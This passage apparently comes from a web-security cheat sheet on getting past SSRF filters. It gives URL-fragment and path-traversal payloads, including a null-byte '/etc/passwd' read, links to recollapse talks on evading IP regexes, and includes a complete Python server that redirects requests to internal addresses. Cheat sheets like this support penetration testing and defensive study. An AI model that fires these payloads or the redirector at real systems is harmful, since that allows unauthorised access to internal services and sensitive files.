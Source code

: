 ## Paths and Extensions Bypass

```
https://metadata/vulerable/path#/expected/path
https://metadata/vulerable/path#.extension
https://metadata/expected/path/..%2f..%2f/vulnerable/path
../../../etc/passwd%00.png
```

## Bypassing IP Regex Using Automated Tools

{% embed url="https://0xacb.com/2022/11/21/recollapse/" %}

This technique has been presented on [BSidesLisbon 2022](https://bsideslisbon.org/)

**Blog post**: [https://0xacb.com/2022/11/21/recollapse/](https://0xacb.com/2022/11/21/recollapse/)

**Slides**:

* [nahamcon\_2022\_eu\_till\_recollapse.pdf](https://github.com/0xacb/recollapse/blob/main/slides/nahamcon\_2022\_eu\_till\_recollapse.pdf)
* [bsideslisbon\_2022\_till\_recollapse.pdf](https://github.com/0xacb/recollapse/blob/main/slides/bsideslisbon\_2022\_till\_recollapse.pdf)

**Videos**:

* [NahamCon 2022 EU](https://www.youtube.com/watch?v=1eLTMKWciic)
* [BSidesLisbon 2022](https://www.youtube.com/watch?v=nb91qhj5cOE)

**Normalization table**: [https://0xacb.com/normalization\_table](https://0xacb.com/normalization\_table)

This script demonstrates a technique to bypass SSRF filters using an HTTP redirect. Here's a summary and explanation:

## Bypass via redirect

```python
#!/usr/bin/env python3

#python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```
